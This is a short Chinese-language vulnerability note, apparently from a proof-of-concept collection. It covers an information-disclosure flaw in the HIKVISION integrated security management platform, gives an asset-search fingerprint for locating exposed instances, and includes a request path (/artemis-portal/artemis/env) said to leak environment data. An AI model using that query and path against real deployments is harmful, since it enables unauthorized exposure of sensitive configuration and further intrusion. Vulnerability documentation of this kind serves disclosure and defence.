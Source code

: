 # HIKVISION 综合安防管理平台 env 信息泄漏漏洞

# HIKVISION 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

HIKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](/images/202208241341481.png)

验证POC

```
/artemis-portal/artemis/env 
```

![image-20230828163057813](images/image-20230828163057813.png)

